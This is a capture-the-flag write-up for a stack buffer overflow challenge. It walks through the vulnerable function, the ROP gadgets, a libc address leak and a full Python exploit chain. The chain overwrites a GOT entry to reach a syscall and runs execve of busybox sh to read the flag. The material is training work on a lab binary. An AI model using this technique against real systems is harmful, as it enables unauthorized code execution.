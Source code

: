# Name
## Solution
In function `enter _name` we see just buffer overflow.
```c
void __fastcall enter_name()
{
  char buf[16]; // [rsp+0h] [rbp-10h] BYREF

  memset(buf, 0, sizeof(buf));
  printf("Enter your name: ");
  fflush(_bss_start);
  read(0, buf, 256uLL);
  puts("Thank you!");
  fflush(_bss_start);
}
```
Stack of this function
```
-0000000000000010 buf             db 16 dup(?)
+0000000000000000  s              db 8 dup(?)
+0000000000000008  r              db 8 dup(?)
+0000000000000010
+0000000000000010 ; end of stack variables
```

We can read to `buffer` variable up to 256 bytes.
16 for variable, 8 for stack, so we have 232 bytes for rop chain.

We dont have nor `system` function, nor `syscall` instruction calls. So we need to leak libc.

First of all find useful rops with ropper.
```
0x00000000004011fd : pop rbp ; ret
0x000000000040124e : pop rdi ; ret
0x0000000000401252 : pop rdx ; ret
0x0000000000401250 : pop rsi ; ret
```

Save this addresses and useful links to our exploit
```python
task_base = 0x400000

pop_rbp = task_base + 0x11fd # : pop rbp ; ret
pop_rdi = task_base + 0x124e # : pop rdi ; ret
pop_rdx = task_base + 0x1252 # : pop rdx ; ret
pop_rsi = task_base + 0x1250 # : pop rsi ; ret

logo_data = task_base + 0x4080
hello_data = task_base + 0x5220

puts_plt = task_base + 0x10B0
fflush_plt = task_base + 0x1120
write_plt = task_base + 0x10c0
read_plt = task_base + 0x10E0
printf_plt = task_base + 0x10d0

puts_plt_got = task_base + 0x4018
srand_plt_got = task_base + 0x4038
time_plt_got = task_base + 0x4048
```

Write simple function to create rop foa any function call.

```python
def call_v1(rip, rdi, rsi, rdx):
    return (
        pack(pop_rdi, 64) +
        pack(rdi, 64) +
        pack(pop_rsi, 64) +
        pack(rsi, 64) +
        pack(pop_rdx, 64) +
        pack(rdx, 64) +
        pack(rip, 64)
    )
```

Try to leak libc addresses via plt got table
```python
def leak_libc_addresses():
  io.sendline(
      b'A'*16 +
      b'S'*8 +
      call_v1(write_plt, 1, puts_plt_got, 8)+
      call_v1(write_plt, 1, srand_plt_got, 8) +
      call_v1(write_plt, 1, time_plt_got, 8)
  )
  io.recvuntil(b'Thank you!\n')
  for _ in range(3):
      received = io.recv(8)
      libc_base = unpack(received, 64)
      print("LIBC_FUNC", hex(libc_base))
```

Thanks to the service [libc.blukat.me](https://libc.blukat.me/) we can find libc version running on the server.

And it's `musl-1.2.4-r2.so`.

We know that ASLR enabled on the server, so we need to leak address and in the same rop use it.

But we can find way more easier.

With ropper we find very useful call of `syscall` instruction.
That very close to `puts` function.

Puts function at `0x04d20f`
```
0x000000000004d2e4: syscall;
```

So we just need to change last byte of puts function and we will get syscall.

But to call `syscall` instruction we need to be able to manipulate `rax` register, in task rops we dont have `pop rax` instructions, neither we have in musl about puts ot other instructions.
But we can go another way, as we remember functions return value via `rax` instruction, so just read 59 bytes to make rax equal 59 and after that call syscall.

I didn't managed to call /bin/sh, because task was ran on alpine, and locally in docker i go folowwing error
```
: applet not found
```
So we just call `/bin/busybox sh`.
Full rop
```python
def exec_sh():
  syscall_rop = 0xe4

  shell = (
          b'A'*16 +     # fill variable
          b'S'*8 +      # fill stack pointer
          # overwite puts address to libc syscall
          call_v1(read_plt, 0, puts_plt_got, 1) +
          # write command to logo string
          call_v1(read_plt, 0, logo_data, 59) +
          # syscall execve("/bin/busybox", ["sh"], NULL)
          call_v1(puts_plt, logo_data + 16, logo_data, 0)
      )

  print("ROP LENGTH", len(shell))

  io.send(shell + b'A'*(256-len(shell))) # send rop
  # send 1 byte to first read
  io.send(pack(syscall_rop, 8))

  # first term is pointer to first argument, that points to "sh" string.
  # second term is end of arguments, i.e. NULL
  # third term is our binary to call.
  # fourth argument is first argument.
  cmd = pack(logo_data + 29, 64) + pack(0, 64) + b'/bin/busybox\x00' + b'sh\x00'
  # send and fill reminding with 0 bytes
  io.send(cmd + b"\x00"* (59-len(cmd)))
  # send command
  io.sendline(b'ls')
```

And voila we have shell, so just read `/flag.txt` file.

Task and its rops ypu can find in [task.zip](task.zip).
Musl libc and its rops you can find in [musl-1.2.4-r2.zip](musl-1.2.4-r2.zip).
